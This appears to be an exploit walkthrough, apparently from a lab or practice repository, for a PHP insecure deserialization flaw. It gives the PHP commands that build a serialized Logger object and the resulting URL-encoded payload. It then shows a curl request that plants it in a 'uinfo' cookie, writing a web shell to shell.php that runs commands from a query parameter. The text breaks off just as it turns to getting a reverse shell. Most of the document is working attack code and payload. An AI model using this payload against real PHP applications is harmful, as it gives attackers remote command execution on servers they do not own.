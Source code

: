 # Exploit Steps

First, in the "app" directory run `php -a`

Then run the following commands:

```
include 'logger-class.php';
$logger = new Logger();
$logger->filename = "./shell.php";
$logger->last_log = '<?php system($_GET["cmd"]); ?>';
$serialized = serialize($logger);
$encoded = urlencode($serialized);
print($encoded);
```

In order, we first include `logger-class.php`. Then we create a new instance of the Logger class and define some properties on that instance. We make the instance's filename `./shell.php`, which is where we will put the payload, and we set `last_log` as some PHP code that will grab whatever is in the `cmd` query parameter and execute as a system command. Next, we serialize the logger instance, we url encode the serialized string to make it safe for putting in our cookie, and then we finally print the resulting string, which is as follows:

`O%3A6%3A%22Logger%22%3A2%3A%7Bs%3A8%3A%22filename%22%3Bs%3A11%3A%22.%2Fshell.php%22%3Bs%3A8%3A%22last_log%22%3Bs%3A30%3A%22%3C%3Fphp+system%28%24_GET%5B%22cmd%22%5D%29%3B+%3F%3E%22%3B%7D`


Finally, visit your php server and replace the `uinfo` cookie with the encoded string above, or make the following curl request:

```
curl 'http://172.17.0.2:9001/' -H 'Cookie: uinfo=O%3A6%3A%22Logger%22%3A2%3A%7Bs%3A8%3A%22filename%22%3Bs%3A11%3A%22.%2Fshell.php%22%3Bs%3A8%3A%22last_log%22%3Bs%3A30%3A%22%3C%3Fphp+system%28%24_GET%5B%22cmd%22%5D%29%3B+%3F%3E%22%3B%7D' 
```


Now, visiting `http://localhost:9001/shell.php` and adding a `cmd` query parameter will execute that shell command. For instance, going to `http://localhost:9001/shell.php?cmd=ls` will print the files in the app's current directory

You can now get a reverse shell by going to `

